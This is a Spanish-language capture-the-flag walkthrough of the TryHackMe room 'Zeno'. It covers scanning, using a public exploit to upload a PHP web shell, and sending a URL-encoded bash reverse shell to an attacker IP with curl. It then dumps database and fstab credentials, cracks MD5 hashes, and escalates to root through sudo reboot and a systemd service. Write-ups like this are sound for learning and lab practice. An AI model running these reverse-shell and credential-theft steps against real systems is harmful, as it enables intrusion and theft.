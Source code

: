 ```yaml
---
title: Zeno - Tryhackme
date: 2023-12-10
categories: [Write up, Linux, Tryhackme]
tags: [ Pathfinder Hotel exploit , cracking, reboot, medium]     # TAG names should always be lowercase
---
```


Para lograr obtener el usuario root en esta maquina, tendremos que hacer uso de un exploit que nos permite subir un archivo `.php` malicioso que nos permita ejecutar comandos en la maquina victima para luego escalar privilegios inyectando un codigo malicioso en fichero que hace uso del binario `reboot`.

![20231127144335.png](20231127144335.png)

- Link [Zeno](https://tryhackme.com/room/zeno)

- Created by  [Biniru](https://tryhackme.com/p/Biniru)

# Walkthrough
--- 

## Enumeración

Iniciamos como en todas las maquinas realizando un nmap enumerando solo los puertos abiertos, ya que si lanzamos la enumeración de versiones y servicios esto tomara mucho tiempo.

```php
❯ nmap -p- --open --min-rate 1000 -vvv -Pn -n 10.10.196.185 -oG allportsScan
PORT      STATE SERVICE REASON
22/tcp    open  ssh     syn-ack
12340/tcp open  unknown syn-ack

```

Teniendo los puertos abiertos `22` y `12340` procederemos a enumerar las versiones y servicios que se ejecuten en este. 

```php
❯ nmap -p22,12340 -sC -sV -Pn -n -vvv 10.10.196.185 -on servicesScan
PORT      STATE SERVICE REASON  VERSION
22/tcp    open  ssh     syn-ack OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 09:23:62:a2:18:62:83:69:04:40:62:32:97:ff:3c:cd (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDakZyfnq0JzwuM1SD3YZ4zyizbtc9AOvhk2qCaTwJHEKyyqIjBaElNv4LpSdtV7y/C6vwUfPS34IO/mAmNtAFquBDjIuoKdw9TjjPrVBVjzFxD/9tDSe+cu6ELPHMyWOQFAYtg1CV1TQlm3p6WIID2IfYBffpfSz54wRhkTJd/+9wgYdOwfe+VRuzV8EgKq4D2cbUTjYjl0dv2f2Th8WtiRksEeaqI1fvPvk6RwyiLdV5mSD/h8HCTZgYVvrjPShW9XPE/wws82/wmVFtOPfY7WAMhtx5kiPB11H+tZSAV/xpEjXQQ9V3Pi6o4vZdUvYSbNuiN4HI4gAWnp/uqPsoR
|   256 33:66:35:36:b0:68:06:32:c1:8a:f6:01:bc:43:38:ce (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEMyTtxVAKcLy5u87ws+h8WY+GHWg8IZI4c11KX7bOSt85IgCxox7YzOCZbUA56QOlryozIFyhzcwOeCKWtzEsA=
|   256 14:98:e3:84:70:55:e6:60:0c:c2:09:77:f8:b7:a6:1c (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOKY0jLSRkYg0+fTDrwGOaGW442T5k1qBt7l8iAkcuCk
12340/tcp open  http    syn-ack Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
| http-methods: 
|   Supported Methods: OPTIONS GET HEAD POST TRACE
|_  Potentially risky methods: TRACE
|_http-title: We&#39;ve got some trouble | 404 - Resource not found
```

Enumerando el puerto `12340` podemos ver un sitio web.  

![20231127165825.png](20231127165825.png)

Ahora enumeramos los directorios del sitio web con la herramienta `ffuf`.

```php
❯ ffuf -c -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -fl 15 -u http://10.10.196.185:12340/FUZZ

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.196.185:12340/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response lines: 15
________________________________________________

rms                     [Status: 301, Size: 239, Words: 14, Lines: 8, Duration: 196ms]

```

El directorio del sitio web que encontramos es `rms`, visiatamos el sitio web [http://10.10.196.185:12340/rms/]() 

![20231127170435.png](20231127170435.png)

Luego seguimos enumerando directorios pero no encontramos nada interesante, también intentamos algunos ataques creándonos una cuenta. 

Buscamos por el nombre que se tenia en el titulo y encontramos algo interesante, por lo que es importante buscar por sus nombres de la web y títulos para ver si encontramos algo que nos pueda ayudar a explotar. 

![20231127183405.png](20231127183405.png)

## Explotación 

En este caso encontramos un exploit que es [Pathfinder Hotel exploit ](https://www.exploit-db.com/exploits/47520) que nos permite subir un archivo. 

```php
❯ python3 exploitHotelManagementSystemRCE.py http://10.10.196.185:12340/rms

    _  _   _____  __  __  _____   ______            _       _ _
  _| || |_|  __ \|  \/  |/ ____| |  ____|          | |     (_) |
 |_  __  _| |__) | \  / | (___   | |__  __  ___ __ | | ___  _| |_
  _| || |_|  _  /| |\/| |\___ \  |  __| \ \/ / '_ \| |/ _ \| | __|
 |_  __  _| | \ \| |  | |____) | | |____ >  <| |_) | | (_) | | |_
   |_||_| |_|  \_\_|  |_|_____/  |______/_/\_\ .__/|_|\___/|_|\__|
                                             | |
                                             |_|



Credits : All InfoSec (Raja Ji's) Group
[+] Restaurant Management System Exploit, Uploading Shell
[+] Shell Uploaded. Please check the URL : http://10.10.196.185:12340/rms/images/reverse-shell.php

```

Por lo que subiremos un archivo php que nos permita ejecutar comandos, una web donde se tiene web shell de las que puedes revisar es la siguiente: [web-shells](https://www.acunetix.com/blog/articles/web-shells-101-using-php-introduction-web-shells-part-2/)


Una vez que ya se subió el archivo malicioso podemos ejecutar comandos. La manera que suelo hacerlo es haciendo uso de `curl` pero con la revershell en [urlencode](https://www.urlencoder.org/) 

```php
bash%20-c%20%27exec%20bash%20-i%20%26%3E%2Fdev%2Ftcp%2F[IP-ATTACKER]%2F443%20%3C%261%27
```

Teniendo nuestra revershell en urlencode, realizaremos la peticion con nuestra revershell
```php
curl -s http://10.10.196.185:12340/rms/images/reverse-shell.php?cmd=bash%20-c%20%27exec%20bash%20-i%20%26%3E%2Fdev%2Ftcp%2F[IP-ATTACKER]%2F443%20%3C%261%27
```

Antes de realizar la petición debemos ponernos a la escucha con `ncat` para recibir la shell de la maquina victima.

## Escalada de privilegios

```php
❯ ncat -lvnp 443
Ncat: Version 7.94SVN ( https://nmap.org/ncat )
Ncat: Listening on [::]:443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.196.185:40880.
bash: no job control in this shell
bash-4.2$ whoami+
whoami
bash-4.2$ 
```

Enumerando encontraremos un archivo de configuracion con credenciales que haremos uso.

```php
/var/www/html/rms/connection
bash-4.2$ cat config.php 
<?php
    define('DB_HOST', 'localhost');
    define('DB_USER', 'root');
    define('DB_PASSWORD', 'veerUffIrangUfcubyig');
    define('DB_DATABASE', 'dbrms');
    define('APP_NAME', 'Pathfinder Hotel');
    error_reporting(1);
?>
bash-4.2$ 
```

Ingresando a la base de datos encontraremos credenciales que podemos hacer uso o al menos intentar algo.

```php
bash-4.2$ mysql -h localhost -u root -p dbrms
Enter password:  
```

![20231127192937.png](20231127192937.png)

```
Stephen :Omolewa:omolewastephen@gmail.com: 81dc9bdb52d04dc20036dbd8313ed055
John : Smith: jsmith@sample.com : 1254737c076cf867dc53d60a0364f38e
edward: zeno : edward@zeno.com : 6f72ea079fd65aff33a67a3f3618b89c
seven : seven : seven@gmail.com : 651f1b54904a1fdc5201ee24605418b7 
```

Una herramienta util es [Crackstation](https://crackstation.net/) y nos ayudara a crackear las contraseñas que estan hasheadas.

```php
Stephen :Omolewa:omolewastephen@gmail.com -> 1234
John : Smith: jsmith@sample.com -> jsmith123
```

Teniendo las credenciales en texto plano no se puede hacer mucho ya que ninguna es valida. Enumerando con [linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) encontraremos una credencial valida que haremos uso para ingresar como `edward`

![20231127202949.png](20231127202949.png)

```php
/etc/fstab:#//10.10.10.10/secret-share        /mnt/secret-share       cifs    _netdev,vers=3.0,ro,username=zeno,password=FrobjoodAdkoonceanJa,domain=localdomain,soft    0 0
```

### Usuario: Edward

![20231127221752.png](20231127221752.png)

Ahora como el usuario `edward` enumeraremos el sistema y permisos

```php
[edward@zeno ~]$ sudo -l
Matching Defaults entries for edward on zeno:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR
    USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY", secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User edward may run the following commands on zeno:
    (ALL) NOPASSWD: /usr/sbin/reboot

```

Ejecutando el comando `sudo -l` podemos ver que tenemos permiso de reiniciar la maquina por lo que el siguiente post: [sudo-reboot-privilege-escalation](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-reboot-privilege-escalation/) nos ayudara a inyectar un comando en un archivo que es `/etc/systemd/systm/example.service` para cambiar los permisos de la `/bin/bash`.
### Usuario: root

![20231128000917.png](20231128000917.png)

¡VAMOS!

Happy hacking :)

